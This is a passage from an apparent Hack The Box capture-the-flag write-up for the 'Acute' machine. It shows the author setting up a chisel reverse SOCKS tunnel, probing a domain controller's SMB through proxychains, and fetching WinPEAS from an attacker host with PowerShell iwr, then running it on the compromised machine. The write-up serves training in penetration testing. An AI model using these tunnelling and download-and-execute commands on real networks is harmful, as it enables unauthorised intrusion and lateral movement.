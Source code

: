 ```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:13:11(HKT)]
└> /opt/chisel/chiselx64 server -p 8888 --reverse
2023/08/14 20:13:12 server: Reverse tunnelling enabled
2023/08/14 20:13:12 server: Fingerprint vcAT0XuBZSiYguQd8KRAVBxLUvujrJjMinGJ81pcV2c=
2023/08/14 20:13:12 server: Listening on http://0.0.0.0:8888
```

- **Client connects to the server:** (Dynamic SOCKS proxy)

**My [Proxychains](https://github.com/haad/proxychains) configuration (`/etc/proxychains4.conf`):**
```shell
[ProxyList]
socks5 127.0.0.1 1080
```

```shell
PS > C:\Utils\chisel.exe client 10.10.14.19:8888 R:1080:socks

```

**Now we should be able to communicate with the Domain Controller with `proxychains`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:16:03(HKT)]
└> proxychains nc -nvz 172.16.22.1 445
[...]
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.22.1:445  ...  OK
(UNKNOWN) [172.16.22.1] 445 (microsoft-ds) open : Operation now in progress
```

**Try to access the SMB server:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:22:29(HKT)]
└> proxychains smbclient -L //172.16.22.1/ -W acute.local -U EDavies
[...]
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.22.1:445  ...  OK
Password for [ACUTE.LOCAL\EDavies]:
session setup failed: NT_STATUS_NOT_SUPPORTED
```

Hmm... `NT_STATUS_NOT_SUPPORTED`, which means the NTLM authentication is disabled. I also tried LDAP and WinRM, but can't be authenticated.

**I also attempted to upload and run [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master), but nothing useful?**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:47:11(HKT)]
└> file /usr/share/peass/winpeas/winPEAS.bat 
/usr/share/peass/winpeas/winPEAS.bat: DOS batch file, ASCII text, with very long lines (1307), with CRLF line terminators
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:47:11(HKT)]
└> python3 -m http.server -d /usr/share/peass/winpeas 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
PS > iwr -Uri http://10.10.14.19/winPEAS.bat -OutFile C:\Utils\winPEAS.bat
PS > C:\Utils\winPEAS.bat
[...]
```
